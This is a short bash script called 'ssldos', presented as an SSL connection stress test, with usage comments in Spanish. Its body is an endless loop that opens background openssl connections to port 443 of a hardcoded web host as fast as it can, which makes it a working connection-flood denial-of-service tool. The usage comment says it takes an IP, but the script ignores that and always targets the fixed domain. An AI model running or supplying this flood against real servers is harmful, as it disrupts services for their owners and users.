 # ssldos

#!/bin/bash
# TEST DE STRESS CONEXIONES SSL
Antonio Taboada 30/12/2016
# chmod *x ssldos
# ./ssldos IP
# Para parar Control + C

while true; do

        openssl s_client -connect web.hackingyseguridad.com:443 2>/dev/null 1>/dev/null&

done
